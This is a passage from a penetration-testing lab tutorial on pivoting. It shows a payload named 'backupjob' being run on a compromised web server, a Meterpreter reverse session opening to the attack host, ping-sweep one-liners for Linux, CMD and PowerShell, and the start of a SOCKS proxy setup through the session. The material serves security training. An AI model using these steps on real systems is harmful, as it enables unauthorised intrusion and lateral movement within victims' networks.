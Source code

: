 ### Executing the Payload on the Pivot Host
```
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```
We need to make sure the Meterpreter session is successfully established upon executing the payload.
### Meterpreter Session Establishment
```
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```
We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network.
### Ping Sweep
```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```
We could also perform a ping sweep using a for loop directly on a target pivot host that will ping any device in the network range we specify. 
### Ping Sweep For Loop on Linux Pivot Hosts
```
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
### Ping Sweep For Loop Using CMD
```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
### Ping Sweep Using PowerShell
```
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```
*Note: It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build its arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.*

There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies. In these cases, we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module socks_proxy to configure a local proxy on our attack host. We will configure the SOCKS proxy for SOCKS version 4a. This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
